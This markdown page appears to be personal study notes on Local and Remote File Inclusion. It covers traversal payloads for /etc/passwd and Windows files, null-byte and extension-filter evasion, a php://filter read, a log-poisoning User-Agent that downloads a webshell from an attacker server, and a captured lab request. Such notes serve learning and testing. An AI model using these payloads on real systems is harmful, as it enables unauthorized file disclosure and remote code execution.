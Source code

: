 # Local File Inclusion and Remote File Inclusion Overview
[Back to Table of Contents](../cysec)

---

[Payload Box - LFI/RFI](https://github.com/payloadbox/rfi-lfi-payload-list)

-----

>### **LFI: Local File Inclusion**

-----


Local file inclusion is a vulnerability that can allow attackers to
traverse the file system due to improperly or non-sanitized requests. \
This may allow an attacker to access sensitive files, ie /etc/passwd


Commonly used attack vector for LFI is '/../../'


````

get.php?file=../../../../etc/passwd

````

This allows traversal through layers of the directories to the root or target folder/directory. How many times depends on the specific system.

This can be determined by encouraging an error, ie:


````

 index.php?lang=jfbdsgd
or 
index.php?page=2/../../../../../etc/passwd

 ````
 which then may return an error, allowing the attacker to determine the number of directories needed to reach to desired file, or which functional call is used, for example,
in php, "include()". 

OS info can sometimes be derived as well:

```

 /get.php?file=../../../../boot.ini

 /get.php?file=../../../../windows/win.ini

 
 ```

### Sanitization and filter evasion:

 
 In PHP 5.3.3 and below, NULL bytes can be used to signify end of string and avoid extension filtering. \
 
index.php?lang=../../../../etc/passwd%00

 Another method of extension filtering evasion is to use:
```
&ext=
```
In the case of a site that automatically appends php at the end of the file name, leaving the extension blank can be a way of evading that.

 Using a '.' can also be used to signify staying within the directory

````

 ../../../../etc/passwd/.

 ````

 Forced directory - if developer forces a directory, evasion is possible by understanding where that directory lies within the levels.

 Evasion may be as simple as adding an extra layer of navigation, ie:


````

 /../../../etc/passwd  --> /../../../../etc/passwd

````
### LFI - Filters

```
/?view=php://filter/read=convert.base64-encode/resource=<path_object>/../../../../../../etc/passwd&ext=
```

- In the case of a blog website, the <path_object> may be "bikes" or whatever the ?view= contains.

### Apache Log Poisoning

Apache log poisoning can be exploited via the user-agent in some cases; php code can be inserted into the user agent, allowing for potential download of malicious code, such as a webshell, from the attacker's server.
```
User-Agent: <?php file_put_contents('shell.php', file_get_contents('http://ip/shell.php'))?>
```
---

Burp suite can be used to evade any request filters that may filter or change characters

Try POST, GET 

If _REQUEST is being used, take advantage of cookies: 


````

POST /challenges////////////chall3.php HTTP/1.1

Host: 10.10.120.210

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.10.120.210/challenges///////////chall3.php?file=

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: =../../../etc/flag3

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 25


file=../../../etc/flag3%00

```` 


--------------------------


>### **RFI: Remote File Inclusion**


---------


allow_url_fopen


Overview:

Payload is hosted on attackers servers -> payload injected via HTTP requests using include function -> payload is executed


````

GET /page.php?file=

lang=http://0.0.0.0/r.elf

````


````

O:8:"_construct":1:{s:4:"cookie";s:10:"Some data!";} 

````

---

### Tools:


````

- lfimap

- lfitester

- vailyn

````